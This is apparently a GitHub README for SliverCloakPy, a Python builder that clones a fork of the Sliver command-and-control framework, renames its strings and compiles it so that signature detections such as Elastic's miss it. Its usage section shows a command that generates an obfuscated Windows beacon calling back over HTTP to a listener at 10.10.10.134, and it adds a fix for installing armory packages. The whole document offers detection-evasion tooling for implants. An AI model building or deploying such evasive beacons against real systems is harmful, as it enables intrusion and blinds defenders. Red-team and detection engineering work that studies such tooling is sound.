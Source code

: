 # SliverCloakPy
Bypass common signature detections such as the ones from elastic.

Python script that does the job of slivercloak against armysick's sliver fork

slivercloak -> https://github.com/thelikes/slivercloak

armysick's sliver -> https://github.com/armysick/sliver

## Usage

Right now the script covers the Elastic Module, but you can replace whatever you want to be honest.

I did this small script because I have a hard time understanding all the work behind go, and I wanted to use armysick's fork, since it implements the ekko sleep module.

Just download the script and run `python3 builder.py`
This will automatically clone armysick's sliver, and get the necessary dependecies, afterwards, it will replace strings in the files and compile the proyect

Beacons are renamed to Krakens, and sliver-server/client is renamed to golder-server/client

## example of generating a beacon with ekko sleep obfuscation -B
```
sudo ./golder-server

generate kraken --http 10.10.10.134 -s /mnt/c/Payloads --arch amd64 --os windows -B -f exe --seconds 5

http
```

## armory problems fix
Since this is replacing strings, including the ones of armory, you wont be able to install armory packages straight away, here is a quick fix

```
armory add -u https://api.github.com/repos/sliverarmory/armory/releases -k "RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L" armory

armory install all
```
